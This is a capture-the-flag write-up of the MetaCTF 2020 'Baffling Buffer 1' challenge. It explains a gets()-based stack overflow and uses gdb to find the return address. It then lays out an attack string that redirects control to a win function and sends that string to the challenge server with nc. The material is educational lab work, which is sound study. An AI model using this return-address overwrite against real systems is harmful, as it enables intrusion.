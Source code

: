 # Baffling Buffer 1

The following is a walk-through of a problem taken from [MetaCTF](https://metactf.com/) CyberGames 2020. I have no idea how long their server will keep hosting this problem. No copyright infringement is intended.

## Problem

After pointing out the initial issue, the developers issued a new update on the login service and restarted it at `host1.metaproblems.com 5151`. Looking at the [binary](bb1) and [source code](bb1.c), you discovered that this code is still vulnerable.

## Solution

### Examining the Stack Layout

The C code is fairly simple. If the user enters `"Sup3rs3cr3tC0de"`, then `"Access granted!"` is printed. `"Invalid auth."` is supposed to be printed for any other inputs. This, however, is not the flag we are looking for. It appears from the code that if the function `win` were to somehow be executed, then the flag would be printed.

As the name suggests, the function `vuln` has a buffer overflow vulnerability due to it's use of the notoriously dangerous `gets`. We can get a better understanding of the stack layout by using GNU debugger.

```sh
chmod u+x bb1
gdb --quiet bb1
```

After executing `break vuln` and `run`, the program will run until it hits the breakpoint in `vuln`.

```txt
(gdb) break vuln
Breakpoint 1 at 0x401190
(gdb) run
Starting program: [redacted]

Breakpoint 1, 0x0000000000401190 in vuln ()
```

The output of `backtrace` shows where execution left off in each function. How do programs remember where each function left off? Every time `f` calls `g`, `f` pushes its "where I left off" address to the stack before jumping to `g`.

```txt
(gdb) backtrace
#0  0x0000000000401190 in vuln ()
#1  0x0000000000401238 in main ()
```

The output of `x/5i vuln` shows an assembler code dump of the first 5 instructions of `vuln` and also shows an arrow pointing at the next instruction to be executed. The next instruction `sub $0x30,%rsp` is for allocating 48 bytes on the stack for `char buf[48]`.

```txt
(gdb) x/5i vuln
   0x40118c <vuln>:     push   %rbp
   0x40118d <vuln+1>:   mov    %rsp,%rbp
=> 0x401190 <vuln+4>:   sub    $0x30,%rsp
   0x401194 <vuln+8>:   lea    0xe7b(%rip),%rdi        # 0x402016
   0x40119b <vuln+15>:  callq  0x401030 <puts@plt>
```

The output of `x/2a $rsp` shows two address-width (8 bytes each) values on the top of the stack. Since `push %rbp` was the most recent stack operation, the saved value of `%rpb` resides on the top of the stack. Next comes the address `0x401238` which is the same address we saw in `backtrace`.

```txt
(gdb) x/2a $rsp
0x7fffffffdba0: 0x7fffffffdbb0  0x401238 <main+74>
```

Using `print win` is one of **many** ways to obtain the address of `win`. The goal of our attack will be to overwrite the return address `0x401238` with `0x401172` so that control goes to `win` instead of back to `main`.

```txt
(gdb) print win
$1 = {<text variable, no debug info>} 0x401172 <win>
```

### Crafting the Attack String

We have located the region of memory that needs to be overwritten. A couple of considerations must be made for the attack string.

1. The string must start with the access code, otherwise `exit(-1)` will be executed and the attack will fail.
2. Memory addresses are 8 bytes, stored in little endian. This means the lowest bytes must be printed out first.

Here is a table that describes all of the contents of the attack string.

| #    | Bytes | Contents                              |
| :--- | :---- | :------------------------------------ |
| 1    | 16    | `"Sup3rs3cr3tC0de"`, ends with `NUL`  |
| 2    | 32    | Padding, any character sequence       |
| 3    | 8     | `0x00007fffffffde90` in little endian |
| 4    | 8     | `0x0000000000401172` in little endian |
| 5    | 1     | Line feed                             |

The string that needs to be typed in contains unprintable characters. Therefore, I created a small C program [`mal.c`](mal.c) that outputs the necessary string.

```sh
gcc mal.c -o mal              # compile mal.c
./mal > attack                # save the attack string in a file
echo 'dummy flag' > flag.txt  # dummy flag
./bb1 < attack                # run bb1 with attack string input
```

This did not work locally on my machine. Running it with `gdb` told me that `flag.txt` did not exist. I suspect this is some kind of binary compatibility issue. However, this did work on the real problem server which is good enough.

```sh
nc host1.metaproblems.com 5151 < attack
```

```txt
Enter the access code:
Access granted!
MetaCTF{c_strings_are_the_best_strings}
```

The flag has been captured! I hope you enjoyed this demo.

:triangular_flag_on_post:
